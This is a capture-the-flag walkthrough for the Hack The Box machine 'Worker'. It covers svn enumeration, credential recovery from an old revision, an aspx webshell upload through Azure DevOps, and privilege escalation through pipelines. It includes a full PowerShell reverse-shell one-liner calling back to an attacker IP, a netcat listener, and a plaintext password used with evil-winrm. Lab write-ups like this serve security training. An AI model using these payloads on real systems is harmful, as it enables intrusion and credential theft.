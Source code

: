 # Worker



## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**User**](#User)
  - [**Root**](#Root)




## Box

 ![](img/about_box.png)



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)



## Enumeration

First, nmap scan:

 ![](img/nmap.png)



Port 80 is open and Microsoft IIS is used. After a look in the website, i found nothing. So, i tried to look for the 3690 port which is svn service.

I start to list the files in the the svn server using the command:

```bash
svn list svn://10.10.10.203
```

 ![](img/svn_list.png)

After that, i start to connect to this server with:

```bash
svn co svn://10.10.10.203
```

I got this files. In the directory, i read the `index.html` file and got lot of new subdomains:

 ![](img/all_subdomain.png)



I found another new subdomain `devops.worker.htb` in `moved.txt` file:

 ![](img/new_subdomain.png)

After adding the subdomains to my `/etc/hosts` file, i tried to connect on my browser to this webpages. I found nothing on this webpages but `devops.worker.htb` wanted authentication.

So i continue my searches on the svn server to get credentials.

I checked all revisions commited with:

```bash
svn log -v svn://10.10.10.203
```

 ![](img/svn_log.png)



I found a file which is not on the current revision but on the revision 2, so i tried to get it with the export option:

```bash
svn export -r 2 svn://10.10.10.203 revision2
```

 ![](img/revision2.png)

Got it. Have a look in this file and we got credentials:

 ![](img/credentials_svn.png)

Now we can log in the previous webpage.



## Exploitation

Here, Azure Devops is deployed. I search a while on this webpage and i found the subdomains builds on the Azure pipeline section:

 ![](img/pipeline_builds.png)



So, i executed the build pipeline, after that, i found a lot of information about how the website is deployed:

 ![](img/repos_url.png)



I tried to add the `_git/aplha` path to the git repository url: `http://devops.worker.htb/ekenas/SmartHotel360/_git/alpha`

So, i have access to the website git repository, and for all user found previously. First, i create a new branch on the git repo of Lens, after that, i tried to upload different type of files and the **aspx** extension worked. So i upload an **aspx webshell** file, commit it:

 ![](img/commit_shell.png)



After that, i had to validate a pull request to merge the temperaly branch to the master branch:

 ![](img/pull.png)



I tried to load shell.aspx: `http://lens.worker.htb/shell.aspx` and i got the webshell:

 ![](img/webshell.png)



I start my port listener:

```bash
nc -lvp 4242
```



And enter the following payload to get my shell:

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.124',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



And i got it:

 ![](img/reverse_shell.png)



Go to `c:\Users` to list the user, see that is **robisl**, after that, i continue to search credentials and i got a file in the following path `w:\svnrepos\conf\passwd`, and i found **robisl** password  :

 ![](img/user_passwd.png)



## Post-exploitation

### User

I tried to use a windows remote management tool called **evil-winrm** to create remote connection to **robisl** account: 

```bash
evil-winrm -i devops.worker.htb -u robisl -p wolves11
```

 And it worked:

 ![](img/owned_user.png)



### Root

First, i connected to **robisl** account on `devops.worker.htb`, and after some searches, i found that i can trigger powershell command remotely with administrator privileges.

To trigger it, i went to the pipeline section to create a build and i added powershell script to make reverse shell:

 ![](img/powershell_pipeline.png)



After that, i saved and add it on the queue:

 ![](img/queue.png)



When i clicked on this build, i got the reverse shell and owned root:

 ![](img/rooted.png)

